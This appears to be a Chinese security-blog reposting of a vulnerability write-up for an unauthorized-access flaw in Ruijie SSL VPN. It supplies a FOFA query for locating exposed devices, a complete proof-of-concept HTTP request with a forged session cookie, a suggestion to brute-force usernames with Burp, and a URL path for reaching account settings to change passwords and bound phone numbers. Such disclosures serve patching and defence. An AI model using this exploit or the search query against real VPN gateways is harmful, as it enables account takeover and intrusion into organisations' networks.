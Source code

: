 #  锐捷-SSL-VPN-越权访问漏洞   
骇客安全  骇客安全   2025-01-19 19:00  
  
## 漏洞描述  
  
Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源  
  
## 漏洞影响  
```
Ruijie SSL VPN
```  
## FOFA  
```
icon_hash="884334722" || title="Ruijie SSL VPN"
```  
## 漏洞复现  
  
访问目标   
http://xxx.xxx.xxx.xxx/cgi-bin/installjava.cgi  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991PEWKXnS6E5dmcAISUe2WnpNLDVKGn0wZIEdGH37K39YqPgCOEA8iaL9wia8jT9wkJukCyjPhYFgCBg/640?wx_fmt=png&from=appmsg "null")  
  
POC请求包如下  
```
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```  
  
其中注意的参数为  
```
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```  
  
UserName 参数为已知用户名  
  
在未知登录用户名的情况下 漏洞无法利用(根据请求包使用Burp进行用户名爆破)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991PEWKXnS6E5dmcAISUe2WnpkVdVeQ0jMzRtolO45ObUwCIKRZajlEMfPIqHeP2tbNCFHcYSOOiaYPg/640?wx_fmt=png&from=appmsg "null")  
  
用户名正确时会返回敏感信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991PEWKXnS6E5dmcAISUe2WnpsHibugUXLibBocUKPmtBuOQC3xmQKuJPTUMafSUuXlcCkbnAVmpxatiaw/640?wx_fmt=png&from=appmsg "null")  
  
通过此方法知道用户名后可以通过漏洞修改账号参数  
  
访问   
http://xxx.xxx.xxx.xxx/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991PEWKXnS6E5dmcAISUe2WnpibuS4JPyZhqzXIn9GpzyD4KE6UVTibIyDnDjdMZlfqrkqjrXuiboCw1kw/640?wx_fmt=png&from=appmsg "null")  
  
点击个人设置跳转页面即可修改账号信息  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991PEWKXnS6E5dmcAISUe2WnpTicb6hTxM2dvucPdsgD8ON48AhUuSib4BvasxPBBPLJ6ibicpJPJNrj2pA/640?wx_fmt=png&from=appmsg "null")  
  
  
